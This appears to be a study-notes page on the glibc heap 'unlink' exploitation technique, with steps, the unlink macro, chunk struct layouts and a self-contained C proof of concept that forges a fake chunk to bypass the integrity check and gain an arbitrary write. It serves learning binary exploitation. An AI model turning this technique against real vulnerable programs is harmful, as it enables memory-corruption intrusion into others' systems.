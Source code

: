 ```yaml
---
layout: default
title: Unlink Attacks
tags:
  - pwn
  - heap
---
```

# Unlink Exploit

Unlinking for the heap is the processes of removing free chunks from a bin.
write primitive (write-what-where)

## Goal
- Corrupt fd and bk of chunk
	- `fd` : where
	- `bk` : what
### Requirements
- control over `fd` and `bk` pointers in a free bin linked list:
	- corrupt `fd` and `bk` pointers of a free chunk
	- fake chunk in linked list
- Known locations to write to (leak)
- a call to free on the adjacent chunk.

## Steps
1. setup 2 adjacent chunks of smallbins
2. build a fake_chunk at start of chunk1 and it should overflow into chunk2 metadata so can set `prev_size` and `prev_inuse` bit
	- The size of fake chunk should be equal to `prev_size` field of the next chunk. Size must be `chunk2 (from data) - chunk1 `
	- `fd` and `bk` of fake chunk should  be 
		- `fd` :WHERE
		- `bk` : WHAT
```c
p->bk = addr - 0x18
p->fd = addr - 0x10
```
3. Enter fake chunk in chunk1
4. Trigger the unlink by freeing chunk 2
5. overwrite chunk1 data with target address

```c
struct fake_chunk {
INTERNAL_SIZE_T      mchunk_prev_size; // + 0x00
INTERNAL_SIZE_T      mchunk_size; // + 0x8  
struct malloc_chunk* fd; // + 0x10 |
struct malloc_chunk* bk; // + 0x18	|aw
}
```

## `Unlink` Macro

easier to read code 

```c
#define unlink(Current, Prev, Next) {
	Next = Current->fd;
	Prev = Current->bk;
	Next->bk = Prev;
	Prev->fd = Next;
}
```

`prev -> current -> next`
![pic1](/assets/images/unlink_1.png)

`prev -> current -> next`
![Pic2](/assets/images/unlink_2.png)


Since we control `fd` and `bk` we have arbitrary write

```c
#define unlink(Current, Where, What) {
	Where = Current->fd; // Next | FD
	What = Current->bk; // Prev | BK
	where->bk = what; // next = prev
	what->fd = where; // prev = nextt
}
```


```c
struct malloc_free_chunk {
INTERNAL_SIZE_T      mchunk_prev_size; // + 0x00
INTERNAL_SIZE_T      mchunk_size; // + 0x8  
struct malloc_chunk* fd; // + 0x10
struct malloc_chunk* bk; // + 0x18
}
```

in order to get the correct address for the `fd` and `bk` pointers 
we need to subtract it
```
p->bk = addr - 0x18
p->fd = addr - 0x10
```

---


```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

struct chunk_structure {
    size_t prev_size;
    size_t size;
    struct chunk_structure *fd;
    struct chunk_structure *bk;
    char buf[10];
};

int main () {   

    unsigned long long *chunk1, *chunk2;
    //void *chunk1, *chunk2;
    struct chunk_structure *fake_chunk, *chunk2_hdr;
    char data[20];

    // get to non fastbin chunks
    chunk1 = malloc(0x80);
    chunk2 = malloc(0x80);
    printf("chunk1 ptr : %p\nchunk2 ptr : %p\n", chunk1, chunk2);


    // forge a fake chunk
    fake_chunk = (struct chunk_structure*)chunk1;
    // setup fd and bk pointers to bypass unlink security check
    fake_chunk->fd = (struct chunk_structure*)(&chunk1 - 3); // p->fd->bk == P
    fake_chunk->bk = (struct chunk_structure*)(&chunk1 - 2); // p->bk->fd == p
    printf("Forged fake chunk : %p\nfake_chunk->fd : %p\nfake_chunk->bk : %p\n", &fake_chunk, &fake_chunk->fd, &fake_chunk->bk);

    // modify the header of chunk2 to pass security checks
    chunk2_hdr = (struct chunk_structure*)(chunk2 -2);
    chunk2_hdr->prev_size = 0x80;
    chunk2_hdr->size &= ~1; // uset prev_in_use bit

    printf("Modify chunk2 header : %p\n", &chunk2_hdr);

    
    free(chunk2);
    printf("Now when chunk2 is freed, attacker's fake chunked is unlinked\n");

		 
    chunk1[3] = (unsigned long long)data;
    strcpy(data, "Victim's data");
    printf("Data : %s\n", data);

    chunk1[0] = 0x002164656b636168LL;

    printf("Data : %s\n", data);


    return 0;
}
```

- at least 2 chunks must be allocated
- Make sure that allocated chunks fall in the smallbin range.
- have control of the first chunk and can overflow into second chunk
- A new fake chunk is created in the data part of `chunk1`. The `fd` and `bk` pointers are adjusted to pass the `corrupted double linked list` security check.
- The contents that are overflowed into the second chunk header must set appropriate `prev_size` and `prev_in_use` bit. This ensures that whenever the second chunk is freed, the fake chunk will be detected as 'freed' and will be `unlinked`.  Make sure the `prev_size` is equal to the size of the previous chunk.
- 




```c
struct malloc_chunk {
  INTERNAL_SIZE_T      mchunk_prev_size;  /* Size of previous chunk, if it is free. */
  INTERNAL_SIZE_T      mchunk_size;       /* Size in bytes, including overhead. */
  struct malloc_chunk* fd;                /* double links -- used only if this chunk is free. */
  struct malloc_chunk* bk;
  /* Only used for large blocks: pointer to next larger size.  */
  struct malloc_chunk* fd_nextsize; /* double links -- used only if this chunk is free. */
  struct malloc_chunk* bk_nextsize;
};

typedef struct malloc_chunk* mchunkptr;
```


---

## Resources
- [unlink technique explained](https://www.youtube.com/watch?v=FOdkyVcbCk0)
- [unlink exploit](https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit)
- [Once upon a free](https://phrack.org/issues/57/9)
